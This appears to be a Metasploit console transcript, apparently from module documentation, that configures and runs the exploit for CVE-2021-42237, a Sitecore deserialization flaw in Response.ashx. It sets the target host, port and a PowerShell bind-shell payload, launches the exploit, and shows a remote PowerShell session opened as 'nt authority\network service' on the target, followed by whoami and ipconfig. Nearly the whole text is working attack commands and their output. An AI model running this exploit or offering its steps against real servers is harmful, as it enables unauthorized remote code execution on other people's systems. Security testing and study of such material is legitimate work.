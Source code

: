 ```
msf6 exploit(windows/http/cve_2021_42237) > set LPORT 8342
LPORT => 8342
msf6 exploit(windows/http/cve_2021_42237) > set TARGET 0
TARGET => 0
msf6 exploit(windows/http/cve_2021_42237) > show options

Module options (exploit/windows/http/cve_2021_42237):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:hos
                                         t:port][...]
   RHOSTS     172.20.211.198   yes       The target host(s), see https://github.com/rapid
                                         7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on
                                         . This must be an address on the local machine o
                                         r 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is ran
                                         domly generated)
   TARGETURI  /                yes       Base path of Sitecore
   URIPATH                     no        The URI to use for this exploit (default is rand
                                         om)
   VHOST      NewInstance1     no        HTTP server virtual host


Payload options (cmd/windows/powershell_bind_tcp):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   LOAD_MODULES                   no        A list of powershell modules separated by a c
                                            omma to download over the web
   LPORT         8342             yes       The listen port
   RHOST         172.20.211.198   no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Windows Command


msf6 exploit(windows/http/cve_2021_42237) > exploit

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Response.ashx is accessible and appears to be deserializing data!
[*] Executing command payload
[*] Started bind TCP handler against 172.20.211.198:8342
[*] Powershell session session 2 opened (172.20.223.94:37301 -> 172.20.211.198:8342 ) at 2021-11-10 15:37:10 -0600

Windows PowerShell running as user WIN-86UKQGF31O1$ on WIN-86UKQGF31O1
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>PS C:\windows\system32\inetsrv>
PS C:\windows\system32\inetsrv> whoami
nt authority\network service
PS C:\windows\system32\inetsrv> ipconfig

```